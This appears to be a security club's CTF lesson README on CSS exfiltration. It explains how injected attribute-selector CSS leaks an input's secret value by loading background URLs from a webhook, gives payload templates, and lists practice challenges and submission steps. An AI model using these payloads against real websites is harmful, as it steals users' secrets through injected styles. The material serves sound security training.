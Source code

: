 # Web 1: CSS Exfiltration Attack

### What is a CSS Exfiltration Attack?

A CSS Exfiltration Attack occurs when an attacker is able to inject CSS into a web page. While some elements on a page may be restricted from direct access, cleverly crafted CSS can be used to extract sensitive data. This is possible because certain CSS selectors and functions can indirectly leak information by triggering observable behaviors, such as generating HTTP requests. In some cases, CSS injection may also lead to JavaScript execution. Today, we are specifically focusing on the data exfiltration aspect of such attacks.

### What is a Webhook?

A Webhook is a mechanism that allows data to be sent to a unique URL when certain events occur. One way to explore this is by visiting [webhook.site](http://webhook.site), a service that provides you with your own unique URL. This URL is private to you, and any visits to it are logged to it. You can also send information along with each visit, such as `webhook/whatever_you_want`.

### How to perform a CSS Exfiltration Attack?
In our challenge `Style-Stealer`, we assume that a secret is stored in an element such as `<input value="secret">`. The idea is to then inject something like `[value="a"] { background: url(webhook/a); }`, which targets an HTML element with a value attribute equal to "a". If such an element exists, the browser will attempt to load a background image from `webhook/a`, effectively making a request to your webhook URL. Although there's no actual image, the request itself logs the data access. Make sure to replace `"webhook"` with your own unique webhook URL.

To expand this attack, rather than guessing exact values, you can use partial attribute selectors:

`[value^="a"]`
- `^` means first character
    - matches all HTML elements that start with "a"

`[value$="a"]`
- `$` means last character
    - matches all HTML elements that end with "a"

These allow broader probing of values without brute-forcing every possibility. For convenience and scale, it’s recommended to write a Python script with for loop(s) to automatically generate these.

## Challenges

The following challenges in increasing difficulty are deployed to [platform.acmcyber.com](https://platform.acmcyber.com) to practice the concepts covered.

- `style-stealer-1`
- `style-stealer-2`
- `style-stealer-3`
- `style-stealer-4`
- `style-stealer-5`
- `style-stealer-6`
- `style-stealer-100`

### Solving and Submitting

1. Go to the [style-stealer site](https://style-stealer.acmcyber.com/)
2. Generate your script (heh good luck).
3. Paste your script into the big CSS box (it should be pretty visible).
4. Put your desired level into the small Level (1-6, 100)
5. Submit and Test (ask us if you have questions)
    - On the blank page, click "View style".
    - See if the letter(s) that are displayed match the letter(s) logged on your webhook (this is like a sanity check).
6. Copy the URL and DM it to `r2uwu2` on Discord.
7. Once he opens your page, you should get a visit to your webhook with the letter(s) logged there (fingers crossed).
8. If the letters match, he will give you the flag :D. If they don't ...

Also, if you are scripting in python, use pyperclip library or a similiar library. It allows you to copy text, instead of having to manually highlight your output and copy it.

### Hints for Style-Stealer

starter script:
```
<input value = "...">
[value = "..."] {
    color: red;
    background: url(...); /* this will make a request to your webhook if the value matches your "..." */
}
```

sending multiple webhooks:
```
input {
    --aaa: none;
    --bbb: none;
    ...
}
[value^="a"] { --aaa: url(.../aaa); }
[value^="b"] { --bbb: url(.../bbb); }
...
[value]{
    background: var(--aaa), var(--bbb), ...;
}
```

conceptual question #1: why do we use 3 character long pattern searches?
conceptual question #2: how will we solve level 100 with only 3 character long searches?

note: there is also a recursive method to solve level 100 but that requires a web server (ask Ronak for more details)

## Resources

- [webhook.site](http://webhook.site)
- [CSS Attribute Selectors](https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors)
- [Blind CSS Data Exfiltration](https://medium.com/@angryovalegg/blind-css-data-exfiltration-8dd6614236b2)
- [Testing for CSS Injection](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/11-Client-side_Testing/05-Testing_for_CSS_Injection)

